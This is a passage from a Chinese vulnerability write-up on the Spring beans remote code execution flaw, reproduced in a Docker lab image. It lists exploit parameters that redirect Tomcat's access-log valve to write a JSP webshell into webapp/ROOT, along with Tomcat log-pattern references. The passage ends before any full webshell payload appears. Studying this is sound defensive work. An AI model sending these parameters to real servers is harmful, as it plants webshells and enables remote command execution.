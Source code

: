 
# [](#spring-beans-rce-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)Spring beans RCE 漏洞分析

## [](#1-%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4)1 影响范围

-   JDK 9 及其以上版本
-   Spring 框架以及衍生的框架 `spring-beans-*.jar` 文件或者存在 `CachedIntrospectionResults.class`

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

### [](#21-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)2.1 环境搭建

本文使用的是 [spring-core-rce-2022-03-29](https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29) docker 镜像，启动镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run --name springRCE -p 8090:8080 -d vulfocus/spring-core-rce-2022-03-29<br>``` |

### [](#22-%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86)2.2 漏洞原理

通过直接修改 tomcat 的 log 日志配置，即可以向 `webapp/ROOT` 下写 `jsp` 文件，达到命令执行的目的，与 [s2-020](https://blog.csdn.net/god_7z1/article/details/24416717) 的利用方式相似。

首先向目标发送如下数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```fallback<br># 设置文件后缀为 .jsp<br>class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp<br><br># 设置文件前缀为 shell<br>class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell<br><br># 设置日志文件的路径为 webapp/path，只有该文件下的 jsp 文件会被解析，本文以 ROOT 为例<br>class.module.classLoader.resources.context.parent.pipeline.first.directory=webapp/ROOT<br>``` |

其次，再设置 log 的 `pattern` 和 `fileDateFormat`，这里的 pattern 是有一定格式限制的，根据 [tomcat 官方](https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html)对于 `Access Logging` 的定义，该项值可以为： `common` 与 `combined`，其中 `common` 的具体定义如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```fallback<br>%a - Remote IP address. See also %{xxx}a below.<br>%A - Local IP address<br>%b - Bytes sent, excluding HTTP headers, or '-' if zero<br>%B - Bytes sent, excluding HTTP headers<br>%h - Remote host name (or IP address if enableLookups for the connector is false)<br>%H - Request protocol<br>%l - Remote logical username from identd (always returns '-')<br>%m - Request method (GET, POST, etc.)<br>%p - Local port on which this request was received. See also %{xxx}p below.<br>%q - Query string (prepended with a '?' if it exists)<br>%r - First line of the request (method and request URI)<br>%s - HTTP status code of the response<br>%S - User session ID<br>%t - Date and time, in Common Log Format<br>%u - Remote user that was authenticated (if any), else '-' (escaped if required)<br>%U - Requested URL path<br>%v - Local server name<br>%D - Time taken to process the request in millis. Note: In httpd %D is microseconds. Behaviour will be aligned to httpd in Tomcat 10 onwards.<br>%T - Time taken to process the request, in seconds. Note: This value has millisecond resolution whereas in httpd it has second resolution. Behaviour will be align to httpd in Tomcat 10 onwards.<br>%F - Time taken to commit the response, in milliseconds<br>%I - Current request thread name (can compare later with stacktraces)<br>``` |

`combined` 的具体定义如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```fallback<br>%{xxx}a write remote address (client) (xxx==remote) or connection peer address (xxx=peer)<br><br>%{xxx}i write value of incoming header with name xxx (escaped if required)<br><br>%{xxx}o write value of outgoing header with name xxx (escaped if required)<br><br>%{xxx}c write value of cookie with name xxx (escaped if required)<br><br>%{xxx}r write value of ServletRequest attribute with name xxx (escaped if required)<br><br>%{xxx}s write value of HttpSession attribute with name xxx (escaped if required)<br><br>%{xxx}p write local (server) port (xxx==local) or remote (client) port (xxx=remote)<br><br>%{xxx}t write timestamp at the end of the request formatted using the enhanced SimpleDateFormat pattern xxx<br>``` |

本文的写 webshell 的方案即是选择 `combined` 相关格式字符。

由于写入一句话 webshell 时，需要一些特殊字符，如：`%`，而 `%` 在日志的配置中又具有特殊含义，直接在 `pattern` 中写入会报错

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302158889.png-water_print](assets/1699408077-cf199eb872ebe18eb260b2f511752eb4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302158889.png-water_print")

